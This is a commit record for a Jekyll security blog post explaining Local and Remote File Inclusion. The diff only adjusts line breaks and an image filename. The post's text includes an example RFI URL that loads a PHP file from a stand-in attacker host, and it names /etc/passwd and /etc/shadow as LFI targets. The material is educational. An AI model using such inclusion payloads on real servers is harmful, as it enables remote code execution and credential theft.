

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from rfi-lfi.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update rfi-lfi.md

```diff
--- a/rfi-lfi.md
+++ b/rfi-lfi.md
@@ -5,11 +5,12 @@
 (for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference
 between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
 Let's see now:
+<br>
 In the easiest way if we want to explain it
 When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
 even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system,
 for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
-<img src="lfi-example.png"/>
+<img src="lfi-example.PNG"/>
 <br>
 On the other hand while exploiting RFI you can upload file from remote server which in 99% will result in
 RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
@@ -19,14 +20,14 @@
 File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.
 
 # > Some File Inlusion Reports:
-<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a> <br>
-<a href="https://hackerone.com/reports/895972"> Limited LFI </a> <br>
-<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a> <br>
+<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a> <br> <br>
+<a href="https://hackerone.com/reports/895972"> Limited LFI </a> <br> <br>
+<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a> <br> <br>
 
 # > Some More Content About File Inclusions
-<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a> <br>
-<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a> <br>
-<a href="https://dvwa.co.uk/"> DVWA </a> <br>
+<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a> <br> <br>
+<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a> <br> <br>
+<a href="https://dvwa.co.uk/"> DVWA </a> <br> <br>
 
 That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer"> Twitter </a>
 so you get notified when I post another blog.
```
